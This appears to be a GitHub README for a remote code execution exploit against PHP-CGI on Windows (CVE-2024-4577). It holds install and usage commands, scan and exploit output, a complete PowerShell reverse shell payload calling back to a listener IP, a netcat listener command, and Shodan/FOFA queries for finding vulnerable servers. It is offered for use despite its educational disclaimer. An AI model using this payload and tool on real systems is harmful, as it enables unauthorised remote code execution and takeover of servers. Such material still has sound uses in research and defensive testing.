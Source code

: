 <h1 align="center">
  PHP CGI Argument Injection (CVE-2024-4577) RCE 
</h2>

## 📜 Description 

In PHP versions 8.1.* before 8.1.29, 8.2.* before 8.2.20, 8.3.* before 8.3.8, when using Apache and PHP-CGI on Windows, if the system is set up to use certain code pages, Windows may use "Best-Fit" behavior to replace characters in command line given to Win32 API functions. PHP CGI module may misinterpret those characters as PHP options, which may allow a malicious user to pass options to PHP binary being run, and thus reveal the source code of scripts, run arbitrary PHP code on the server, etc.

"XAMPP is vulnerable in a default configuration, and we can target the /php-cgi/php-cgi.exe endpoint. To target
an explloit .php endpoint (e.g. /index.php), the server must be configured to run PHP scripts in CGI mode."
 
## 🛠️ Installation 
```bash
$ git clone https://github.com/fa-rrel/CVE-2024-4577-RCE/
$ cd CVE-2024-4577-RCE && pip install -r requirements.txt 
```
## ⚙️ Usage
$ python3 CVE-2024-4577.py -s -t https://target.com/
## 🤖 Establishing reverse shell 

### PHP Payload
> [!NOTE]
> This tool demonstrates realistic attack and techniques (TTPs). However this specific payload sample does not function in this scenario. Modify the shell.php to obtain fully functional payload.
```php
# rev_shell.php
<?php
$payload = "powershell -c \"\$client = New-Object System.Net.Sockets.TCPClient('192.168.56.100', 9001);\$stream = \$client.GetStream();[byte[]]\$bytes = 0..65535|%{0};while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);\$sendback = (iex \$data 2>&1 | Out-String );\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);\$stream.Flush()};\$client.Close()\";

exec($payload);
?>
 
```
## 🖥️ Scanning server
```bash
$ python3 CVE-2024-4577.py -s -t https://target.com/                                                   
  ______     _______   ____   ___ ____  _  _         _  _  ____ _____ _____ 
 / ___\ \   / / ____| |___ \ / _ \___ \| || |       | || || ___|___  |___  |
| |    \ \ / /|  _|     __) | | | |__) | || |_ _____| || ||___ \  / /   / / 
| |___  \ V / | |___   / __/| |_| / __/|__   _|_____|__   _|__) |/ /   / /  
 \____|  \_/  |_____| |_____|\___/_____|  |_|          |_||____//_/   /_/    
Author: Ghost_sec | Youtube.com/Ghost_sec | Github.com/fa-rrel | POC & Scanning  

[+] Target https://target.com is vulnerable to CVE-2024-4577
```

## 🎯 Exploiting Vulnerable server
```bash
$ python3 CVE-2024-4577.py -t {targetsite.txt} -e -p rev_shell.php
                                                  
 ______     _______   ____   ___ ____  _  _         _  _  ____ _____ _____ 
 / ___\ \   / / ____| |___ \ / _ \___ \| || |       | || || ___|___  |___  |
| |    \ \ / /|  _|     __) | | | |__) | || |_ _____| || ||___ \  / /   / / 
| |___  \ V / | |___   / __/| |_| / __/|__   _|_____|__   _|__) |/ /   / /  
 \____|  \_/  |_____| |_____|\___/_____|  |_|          |_||____//_/   /_/    
Author: Ghost_sec | Youtube.com/Ghost_sec | Github.com/fa-rrel | POC & Scanning  

[+] Exploit successful!
```

## 👨🏻‍💻 Netcat Listener
```bash
$ nc -lvnp 9001
```

## 🔍 Discovering vulnerable host
- **Shodan**: `server: PHP 8.1`, `server: PHP 8.2`, `server: PHP 8.3`
- **FOFA**: `protocol="http" && header="X-Powered-By: PHP/8.1" || header="X-Powered-By: PHP/8.2" || header="X-Powered-By: PHP/8.3"`
## 💁 References
- https://labs.watchtowr.com/no-way-php-strikes-again-cve-2024-4577
- https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/main/http/cves/2024/CVE-2024-4577.yaml
- http://www.openwall.com/lists/oss-security/2024/06/07/1
- https://raw.githubusercontent.com/rapid7/metasploit-framework/master/modules/exploits/windows/http/php_cgi_arg_injection_rce_cve_2024_4577.rb
- https://www.php.net/ChangeLog-8.php#8.1.29
- https://www.php.net/ChangeLog-8.php#8.2.20
- https://www.php.net/ChangeLog-8.php#8.3.8
- https://github.com/l0n3m4n/CVE-2024-4577-RCE/

## ⚠️ Disclaimer 
This tool is provided for educational and research purposes only. The creator assumes no responsibility for any misuse or damage caused by the tool.
